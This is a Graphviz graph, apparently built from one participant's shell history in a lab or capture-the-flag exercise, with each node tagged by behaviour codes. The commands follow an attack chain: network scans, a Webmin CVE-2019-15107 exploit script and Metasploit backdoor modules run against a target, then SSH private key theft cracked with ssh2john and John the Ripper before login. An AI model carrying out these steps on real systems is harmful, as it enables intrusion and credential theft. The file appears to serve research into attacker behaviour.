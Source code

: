// creating graph for user: 86
digraph {
	node [shape=box]
	2 [label="nmap 172.18.1.5 -p 0-65535 A0 M0 A1 "]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' A9 M9 A11 A12 A13 A17 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	17 [label="nmap 172.18.1.5 V0 "]
	18 [label="nmap 172.18.1.0/24 A0 A1 "]
	19 [label="nmap 172.18.0.0/16 A0 A1 "]
	20 [label="nmap 172.18.0.0/16 A0 A1 "]
	23 [label="msfconsole A2 M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor A8 M8 "]
	25 [label="msfconsole V2 "]
	26 [label="search webmin A3 M3 "]
	27 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options A5 M5 "]
	32 [label="set RHOSTS 172.15.1.5 A6 M6 "]
	33 [label="set RPORT 10000 V6 "]
	34 [label="show A5 "]
	35 [label="show options V5 "]
	36 [label="exploit V8 "]
	38 [label="msfconsole V2 "]
	39 [label="search webmin V3 "]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec V8 "]
	41 [label="show A5 "]
	42 [label="show targets A5 "]
	43 [label="show options V5 "]
	44 [label="set RHOST 172.18.1.5 A6 "]
	45 [label="set USERNAME dmin A6 "]
	46 [label="set USERNAME admin A6 "]
	47 [label="exploit V8 "]
	48 [label="set PASSWORD admin A6 "]
	49 [label="exploit V8 "]
	51 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	52 [label="show targets A5 "]
	53 [label="set TARGET 0 A6 "]
	54 [label="show options V5 "]
	55 [label="set LHOST 10.1.135.83 V6 "]
	56 [label="set RHOST 172.18.1.5  A6 "]
	57 [label="exploit V8 "]
	58 [label="set TARGET 1 A6 "]
	59 [label="ssh eve@10.1.17.4 A16 M16 "]
	61 [label="xclip -selection c -o > .ssh/id_rsa A16 "]
	62 [label="vim .ssh/id_rsa A16 "]
	63 [label="vim .ssh/id_rsa.pub A16 "]
	64 [label="ssh eve@10.1.17.4 V16 "]
	65 [label="chmod 0600 /root/.ssh/id_rsa A15 M15 A16 "]
	66 [label="ssh eve@10.1.17.4 V16 "]
	67 [label="ssh eve@10.1.17.4 V16 "]
	75 [label="john mypasswd A14 "]
	77 [label="cat .ssh/id_rsa A12 M12 A16 A17 "]
	78 [label="cat .ssh/id_rsa.pub V12 "]
	79 [label="ls A10 "]
	80 [label="cp ~/.ssh/id_rsa A16 "]
	81 [label="cp ~/.ssh/id_rsa id_rsa A16 "]
	82 [label="localte ssh2john.py A14 A16 "]
	83 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	84 [label="python ssh2john.py id_rsa A13 M13 A14 A16 "]
	85 [label="python ssh2john.py id_rsa > ssh.john V13 "]
	86 [label="john ssh.john A14 A16 "]
	87 [label="john ssh.john A14 A16 "]
	88 [label="cat .john/john.rec A1 A9 A11 A12 A14 A17 "]
	90 [label="john ssh.john A14 A16 "]
	92 [label="cat rockyou.txt.gz A1 A9 A11 A12 A17 "]
	93 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 A16 "]
	100 [label="locate rocky A1 A9 A10 A11 A12 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	105 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 A16 "]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn V13 "]
	110 [label="diff ssh.john ssh2.jogn A14 A16 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt A14 M14 A16 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	114 [label="ssh eve@10.1.17.4 V16 "]
	116 [label="ls A10 "]
	118 [label="ls A10 "]
	119 [label="cat flag.txt A17 M17 "]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt A14 A16 "]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	0 -> 2 [constraint=false]
	2 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 75 [constraint=false]
	75 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 121 [constraint=false]
	121 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
